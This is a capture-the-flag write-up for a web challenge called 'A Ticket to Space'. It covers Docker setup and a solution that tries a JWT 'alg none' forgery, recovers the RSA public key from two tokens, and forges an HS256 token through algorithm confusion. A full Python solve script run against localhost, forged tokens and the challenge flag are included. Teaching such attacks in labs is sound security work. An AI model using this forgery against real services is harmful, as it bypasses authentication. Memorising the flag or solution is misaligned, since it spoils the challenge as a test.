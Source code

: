 # A Ticket to Space

#### Category: Web Exploitation

#### Difficulty: Medium

#### Type: Black Box

#### Description: I have always wanted to go to space. Now they offer a program that will allow me to fulfill my dream! But the queue is a little long, and I'm not sure if I'll still be here when my turn arrives...  I wonder if there is a way to bypass the queuing system.

![image](https://github.com/user-attachments/assets/8c2f4250-53d8-463c-be5c-3828a186b3ab)


## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:3000`

## Solution
<details>

<br>

Since the web exploitation is a black box challenge, source code are not provided and it is required for the players to perform analysis themself and figure out the possible vulnerability. Accessing to the website, a webpage will be displayed like this and it should simulate like a ticket queuing system.

<br>

![image](https://github.com/user-attachments/assets/1fd26ac1-3aa4-4dcb-b933-962368016e73)

<br>

When the 'Buy Tickets' button is clicked, an alert message 'Not your turn yet! Please Wait!' will appear as the user is not authorized to access the ticket purchasing site yet.

<br>

![image](https://github.com/user-attachments/assets/f7519d5c-1ae0-45f6-8703-a56137ebbc71)

<br>

To further understand on how does the website checks the user's authorization, inspecting the frontend side should provide some valuable information.

### Frontend Source Code (Javascript)
```javascript
 window.onload = function() {
    if (!localStorage.getItem("jwt")) {
    fetch("/genToken", {
        method: "GET",
        headers: {
        "Content-Type": "application/json"
        }
    })
    .then(res => res.json())
    .then(data => {
        localStorage.setItem("jwt", data.token);
    })
    .catch(err => console.error("Error getting token:", err));
    }
    };
    
    function BuyTicket() {
    const token = localStorage.getItem("jwt");
    if (!token) {
        alert("No token found.");
        return;
    }
    fetch("/buyTicket", {
        method: "GET",
        headers: {
            "Authorization": `Bearer ${token}`
        }
    })
    .then(async (response) => {
        if (!response.ok) {
            const data = await response.json();
            alert(data.message || "Access denied");
            return;
        }
        const html = await response.text();
        document.open();
        document.write(html);
        document.close();
    })
    .catch(error => {
        console.error("Error:", error);
        alert("Something went wrong.");
    });
}
```
<br>

It seems that the website will fetch the `/genToken` to generate a unique Json Web Token (JWT) for each of the user and stored in the localStorage which will be retrieved later on to check the validity of the token in the `/buyTicket`. If the token validity returns invalid, it will deny the user access to the site. Now let's obtain the JWT from the localStorage for further analysis.

<br>

![image](https://github.com/user-attachments/assets/84c96782-0c5c-445b-95a5-6406a12eccb9)

<br>

When decoding the JWT using an online tool such as [jwt.io](https://jwt.io/). We can see that the JWT uses RS256 algortihm to secure their token. It also contain the payload `{"purchasePerm" : false}` which most likely is the mechanism used to check the validility of the token from the backend server. Therefore, changing the boolean of the payload to `{"purchasePerm" : true}` should work right? Unfortunately for RS256 algorithm, modifying the payload without a valid private key will not work because the server will use the public key to decode the token and checks the payload. Modifying the token without private key will cause the token to be not recognizable by the server and result in invalid token.

<br>

![image](https://github.com/user-attachments/assets/e3985a60-d8de-43e7-b2d1-b683c4c95a48)

<br>

Thus, the website may have two potential vulnerabilities which are [JWT Algorithm "None"](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f) or [JWT Algorithm Confusion](https://portswigger.net/web-security/jwt/algorithm-confusion). Let's first explore the algorithm "None" exploit and determine whether it works. We can use jwt.io to switch the algorithm to `none` and forged a token containing a header like `{"alg" : "none" , "type" : "JWT"}` and also change the payload to `{"purchasePerm" : true}`. The forged token will look something like this `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJwdXJjaGFzZVBlcm0iOnRydWUsImV4cCI6MTc0NTE2ODg5OCwiaWF0IjoxNzQ1MTY1Mjk4fQ.`.

<br>

![image](https://github.com/user-attachments/assets/8a690b70-a261-44f6-860d-5eadd8209dff)

<br>

Then, we can replace the token in the localStorage with the forged token and attempt to access the `/buyTicket`. As a result, the algorithm "None" exploit does not work because the server will not accept token with "None" algorithm so it returns 'Token Authentication Failure'. Therefore, the JWT Algorithm "None" is not the solution ❎ and now we only have one possible vulnerability left which is JWT Algorithm Confusion.

<br>

![image](https://github.com/user-attachments/assets/efe7c9ab-7860-4031-bb1b-997b62e70bcc)

<br>

JWT Algorithm Confusion require us to retrieve the public key which will be used as the HMAC shared secret key after changing the algorithm to HS256 in the JWT header. Most of the time server will exposed their public keys in common path like `/jwks.json` , `/known-path/jwks.json`, & `/public.pem`. However, after several attempts on trying to retrieved the exposed public keys through known path has resulted in nothing. We can assume that the server was configured properly to ensure that the public key does not get exposed.

<br>

![image](https://github.com/user-attachments/assets/3d0a6bc1-faa1-493b-bbd4-203219c14021)

<br>

Fortunately, there is an interesting method that can be used to retrieved the public keys if they are not exposed. A great tool developed by nu11secur1ty called [rsa_sign2n](https://github.com/nu11secur1ty/rsa_sign2n/blob/main/README.md) can derived the public keys from existing tokens which we need to generated two tokens from the website for the tool to work.

First Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2MzgsImlhdCI6MTc0NTE3NDAzOH0.iTWhbTm90rdNtA10xmwiV0I7S-eD1veCkDgCqbBt5wer6ds1sHJDl5tNZQZcnwfBtYiaMhNG-DqTB7VfTbaYTWJRHNxr6n_UJmXB_XjWBtNkIpGwPHwkJBmebngg-VZuXOvo2NP8wv0TpdF3GRLQENonGFY37l5cYmATtKsNBUlTrvKwp0KLrLpIS8-uufXXkxha5SL6sDmj5z9Mmhwv-At7O0C4ZE8cijfhj48KXWcHk1fQFl1lYVPovqygh3tkJOW2avUO0HehDs6o5YX833aFhOox9kya7DbpPBcW9UEh62_EfFk2L1G1xgZg04vHcTzFYxrX62oaz804FyZHRQ`

After deleting the token and refresh the page will generate another new token.

Second Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2NTcsImlhdCI6MTc0NTE3NDA1N30.GMSDZvtmFlYGT8dcpk04rHWx6PDM-4DAuzzSXtuvRLfp9-IlVxuwe2MsjzjBGIFU9NLrBhxMkruqm2HcNrDHVkz-NUVDKWmLRED0_VJ9FGwIEARkkZqS-dHXA56x0QxGpUVWSq43_1u_qFi8ZczYAr_O9iXEDmTnBFl2Xu_zLZ0OYOlhKSEnCiGbWUlju2UH-nflysT_I7ENrUTFp_wixpPNYVxfZWLk16ixarISbOixvMdL5rYbYZmPEwos5Lz0-ix4gxmPcY1J2luLRhhQPdkaqKBwMzpSQjwex6N63gHt7kGk_kVfHr1B0L-CIYPazNBn9W5qQcUUVTbvVbzBlg`

Now we have two tokens ready and we can use the tool after successful installation. The command should be like this `python3 jwt_forgery.py token1 token2`. When the process is completed, it should display the result like the image below.

<br>

![image](https://github.com/user-attachments/assets/c35c26da-238a-402d-aa1a-3f6aa07e5d4f)

<br>

Now we need to get the public keys from the result. The public keys will usually stored in x509.pem format and we can use `cat` command to obtain the contents of the file. We need to copy the following public keys into a newly created file called `public.pem` which will be used for later on.

![image](https://github.com/user-attachments/assets/55931d70-3c22-4b42-b023-11062acd7241)

<br>

Getting the public key is a crucial step for the JWT Algorithm Confusion attack to work. Now we can forge our own token by creating a simple python script. Firstly we need to read the `public.pem` file to strip unwanted contents and covert to proper format before using it as the HMAC secret.

```python
with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)
```

Then, we need to modify the algorithm to HS256 like `{"typ" : "JWT", "alg" : "HS256"}` and changing the payload data to `{"purchasePerm" : True}`. Now, we can forge the token containing HS256 algorithm along with public key as the HMAC secret.

```python
payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)
```

Finally, we can send the token to the website using `Authorization: Bearer` to `/buyTicket` endpoint.

```python
response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

#### Full Solve Script (Python)

```python
import jwt
import requests
import base64
import os

with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)

payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)

response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

Example of the forged token (HS256): `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOnRydWV9.1YZ0CGvtXB1ukrQiIFLr03bs3mgKuxquiebt3Bk5Axo`

After executing the script we are able to obtain the flag which indicates that the JWT Algorithm Confusion attack has been successfully demonstrated. 

<br>

![image](https://github.com/user-attachments/assets/2903c906-3926-428e-84f7-0a481c735758)

<br>

![image](https://github.com/user-attachments/assets/e138a6eb-5794-4cdc-8500-7bf19dd4a7db)

<br>

### Flag
>ICTF25{3678087349b1b6d839e019a16d5483621af5b09c7d36fc6df346edd4425e7802}
</details>

